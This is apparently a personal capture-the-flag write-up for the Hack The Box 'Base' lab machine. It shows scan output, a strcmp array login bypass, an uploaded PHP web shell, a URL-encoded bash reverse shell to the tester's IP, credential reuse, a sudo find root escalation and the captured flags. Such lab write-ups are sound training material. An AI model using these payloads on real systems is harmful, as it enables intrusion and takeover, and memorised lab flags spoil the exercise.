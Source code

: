 ```yaml
---
title: "HTB Base"
date: 2023-05-30T16:32:14-07:00
draft: false
---
```


# Base by HTB - Starting Point 2 

IP=10.129.95.184
MyIP=10.10.15.79

## nmap 

### nmap -sCV -oN nmap-CV.txt $IP

`PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 f65c9b38eca75c791c1f181c5246f70b (RSA)
|   256 650cf7db42034607f21289fe11202c53 (ECDSA)
|_  256 b865cd3f34d8026ae318233e77dd8740 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Welcome to Base
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel`


### nmap -p- -T5 $IP
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http


from login dir 

`<?php
session_start();
if (!empty($_POST['username']) && !empty($_POST['password'])) {
    require('config.php');
    if (strcmp($username, $_POST['username']) == 0) {
        if (strcmp($password, $_POST['password']) == 0) {
            $_SESSION['user_id'] = 1;
            header("Location: /upload.php");
        } else {
            print("<script>alert('Wrong Username or Password')</script>");
        }
    } else {
        print("<script>alert('Wrong Username or Password')</script>");
    }`


intercept the login and chang

username=admin&password=admin
to
username[]=admin&password[]=admin

and we are logedin

make file to test upload

echo "<?php phpinfo(), ?>" > test.php

*note to self*: when uploading file don't forget to turn off the poxy or at lest see if it can be fowrded 

## Gobuster 
`gobuster dir --url http://$IP/ --wordlist /usr/share/wordlists/dirb/big.txt 
2023/05/30 15:55:37 Starting gobuster in directory enumeration mode`

`/.htaccess            (Status: 403) [Size: 278]
/.htpasswd            (Status: 403) [Size: 278]
/_uploaded            (Status: 301) [Size: 318] [--> http://10.129.95.184/_uploaded/]
/assets               (Status: 301) [Size: 315] [--> http://10.129.95.184/assets/]   
/forms                (Status: 301) [Size: 314] [--> http://10.129.95.184/forms/]    
/login                (Status: 301) [Size: 314] [--> http://10.129.95.184/login/]    
/server-status        (Status: 403) [Size: 278]                                      
2023/05/30 15:58:22 Finished`


## To login

uplad file that has 
`<?php echo system($_REQUEST['cmd']);?>`
 in file called webshell.php or other
 
 then go to /_uploaded and open the file in the broser and you should get a ?cmd=
 in the url I had to type it in but it worked once i did 
 then using burp intercept, change the request type to POST from GET then send to reptert and url encode /bin/bash -c 'bash -i >& `/dev/tcp/&MyIP/PORT 0>&1'
 %2f%62%69%6e%2f%62%61%73%68%20%2d%63%20%27%62%61%73%68%20%2d%69%20%3e%26%20%2f%64%65%76%2f%74%63%70%2f%31%30%2e%31%30%2e%31%35%2e%37%39%2f%35%35%35%35%20%30%3e%26%31%27
 then set up your lisaner on the PORT 
 then you will get a rshell
www-data@base:/var/www/html/_uploaded$ cat /var/www/html/login/config.php
cat /var/www/html/login/config.php
username = "admin";
password = "thisisagoodpassword";
ls /home
john
cant su john
so ssh john`


##### user.txt
john@base:~$ cat user.txt 
f54846c258f3b4612f78a819573d158e

### Privilege Escalation
john@base:~$ sudo -l
[sudo] password for john: 
Matching Defaults entries for john on base:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User john may run the following commands on base:
    (root : root) /usr/bin/find

john@base:~$ sudo find . -exec /bin/sh \; -quit
\# whoami
root

found at [GTFOBins](https://gtfobins.github.io/gtfobins/find/)

\# cat /root/root.txt
51709519ea18ab37dd6fc58096bea949

this is part of HTB startingpoint tire 2 
thank you 